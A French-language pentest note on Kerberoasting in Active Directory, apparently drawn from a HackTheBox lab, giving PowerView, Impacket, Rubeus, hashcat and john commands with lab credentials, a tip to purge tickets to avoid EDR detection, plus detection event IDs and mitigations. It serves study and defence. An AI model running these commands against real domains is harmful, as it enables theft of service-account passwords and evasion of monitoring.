

## Kerberoasting



### Définition

Le **Kerberoasting** est une technique d'attaque **Active Directory** permettant d'extraire des tickets de service (**TGS**) chiffrés avec la clé dérivée du mot de passe d'un compte de service. L'objectif est de réaliser un craquage hors-ligne pour obtenir les identifiants en clair. Cette technique repose sur le protocole **Kerberos**.

### Conditions préalables

*   Accès à un compte utilisateur authentifié sur le domaine.
*   Possibilité de demander des tickets de service (**TGS**) via **Kerberos**.

### Énumération SPN

L'identification des comptes possédant un **Service Principal Name** (**SPN**) est nécessaire pour cibler les comptes de service.

*   Avec **PowerView** :
```powershell
Get-DomainUser -SPN
```

*   Avec **netexec** ou **GetUserSPNs.py** (**Impacket**) :
```bash
python GetUserSPNs.py administrator.htb/olivia:ichliebedich -dc-ip 10.10.11.42
```

### Analyse des permissions (GenericAll/WriteSPN)

L'analyse via **BloodHound** permet d'identifier des chemins d'attaque où un utilisateur possède des droits **GenericAll** ou **WriteSPN** sur un objet, permettant de définir un **SPN** arbitraire sur un compte cible pour ensuite le kerberoaster.

*   **GenericAll** : Permet de modifier l'objet, incluant la définition d'un SPN.
*   **WriteSPN** : Permet de modifier directement l'attribut `servicePrincipalName` de l'objet.

```powershell
# Exemple de modification via PowerView si les droits sont acquis
Set-DomainObject -Identity "target_user" -Set @{serviceprincipalname="test/service"}
```

### Demande de ticket TGS

> [!warning] Risque de blocage de compte
> Si le mot de passe est erroné lors de tentatives répétées, le compte de service peut être verrouillé.

*   Avec **Rubeus.exe** :
```powershell
Rubeus.exe kerberoast /user:username /domain:administrator.htb /dc:10.10.11.42
```

*   Avec **Impacket** :
```bash
python GetUserSPNs.py -request administrator.htb/olivia:ichliebedich -dc-ip 10.10.11.42
```

### Extraction de hash

Le format du hash extrait est le suivant :
```text
$krb5tgs$23$*service_account$domain$service_principal_name*$HASH
```

### Détails sur les types de chiffrement (RC4 vs AES)

Le type de chiffrement utilisé pour le ticket dépend de l'attribut `msDS-SupportedEncryptionTypes` du compte de service et de la configuration du domaine.

*   **RC4 (Type 23)** : Historiquement utilisé, il est vulnérable à un craquage rapide car le hash est directement dérivé du mot de passe (NTLM hash).
*   **AES-128/256 (Type 17/18)** : Plus robuste, le craquage nécessite une puissance de calcul significativement plus élevée.

> [!tip] Importance de la complexité des mots de passe
> Le Kerberoasting est une attaque par force brute. La robustesse contre cette attaque repose quasi exclusivement sur la longueur et l'entropie du mot de passe du compte de service.

### Craquage offline

*   Avec **hashcat** (utiliser **-m 13100**) :
```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

*   Avec **john** :
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Nettoyage des tickets (Purge)

Il est recommandé de purger les tickets de la session courante après l'opération pour éviter les conflits ou la détection par des outils de monitoring EDR.

```powershell
klist purge
```

### Risques de détection (Event IDs)

La surveillance des logs **Active Directory** permet de détecter cette activité :

*   **Event ID 4769** : Demande de ticket de service (**TGS**).
    *   **Indicateur de compromission** : Une augmentation anormale de ces requêtes, particulièrement si le champ `Ticket Encryption Type` affiche **0x17** (RC4), est un indicateur fort de Kerberoasting.
*   **Event ID 4738** : Modification d'un compte utilisateur (si l'attaquant a utilisé **WriteSPN** pour ajouter un SPN).

### Mesures de protection

*   Utiliser des mots de passe longs et complexes pour les comptes de service (gMSA recommandés).
*   Limiter l'utilisation de comptes de service à haut privilège.
*   Privilégier l'utilisation de tickets **AES** au lieu de **RC4**.
*   Surveiller les requêtes **Kerberos** inhabituelles via les logs d'événements.

> [!note] Références
> L'utilisation de **BloodHound** est préconisée pour identifier les chemins d'attaque optimaux dans l'**Active Directory**. Voir également les notes sur **Kerberos** et **Powerview**.